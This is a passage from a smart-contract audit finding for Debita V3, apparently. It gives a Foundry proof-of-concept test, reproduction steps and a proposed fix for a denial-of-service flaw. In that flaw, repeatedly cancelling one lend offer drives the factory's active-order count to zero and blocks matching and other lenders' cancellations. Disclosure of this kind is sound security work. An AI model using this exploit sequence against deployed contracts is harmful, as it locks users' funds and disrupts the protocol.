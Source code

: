 ```solidity  
  
        // cancelOffer again -> DLOFactory::activeOrdersCount == 1  
        DLOImplementation(lendOffer1).cancelOffer();  
  
        // addFunds (1 wei)  
        DLOImplementation(lendOffer1).addFunds(1);  
  
        // lender1 cancels the offer -> DLOFactory::activeOrdersCount == 0  
        DLOImplementation(lendOffer1).cancelOffer();  
  
        vm.stopPrank();  
  
        // check DLOFactory::activeOrdersCount == 0  
        assertEq(DLOFactoryContract.activeOrdersCount(), 0);  
  
        // now try to call mathOffersV3 -> should fail  
        address[] memory lendOrders = new address[](1);  
        uint[] memory lendAmounts = allDynamicData.getDynamicUintArray(1);  
        uint[] memory percentagesOfRatio = allDynamicData.getDynamicUintArray(  
            1  
        );  
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData  
            .getDynamicUintArray(1);  
        uint[] memory indexForCollateral_LendOrder = allDynamicData  
            .getDynamicUintArray(1);  
        uint[] memory indexPrinciple_LendOrder = allDynamicData  
            .getDynamicUintArray(1);  
  
        lendOrders[0] = lendOffer3;  
        percentagesOfRatio[0] = 10000;  
        lendAmounts[0] = 5e18;  
  
        vm.expectRevert(stdError.arithmeticError);  
        address deployedLoan = DebitaV3AggregatorContract.matchOffersV3({  
            lendOrders: lendOrders,  
            lendAmountPerOrder: lendAmounts,  
            porcentageOfRatioPerLendOrder: percentagesOfRatio,  
            borrowOrder: borrowOrderAddress,  
            principles: acceptedPrinciples,  
            indexForPrinciple_BorrowOrder: indexForPrinciple_BorrowOrder,  
            indexForCollateral_LendOrder: indexForCollateral_LendOrder,  
            indexPrinciple_LendOrder: indexPrinciple_LendOrder  
        });  
  
        // lender2 tries to cancel his lend order -> should fail  
        vm.startPrank(lender2);  
        vm.expectRevert(stdError.arithmeticError);  
        DLOImplementation(lendOffer2).cancelOffer();  
    }  
}  
Steps to reproduce:

Create a file DOSTest.t.sol inside Debita-V3-Contracts/test/local/Loan/ and paste the PoC code.

Run the test in the terminal with the following command:

forge test --mt testDOSAttack

Mitigation
Add a check in DLOImplementation::cancelOffer to prevent cancelling an inactive lend order.

@@ -139,12 +139,13 @@ contract DLOImplementation is ReentrancyGuard, Initializable {  
     }  
```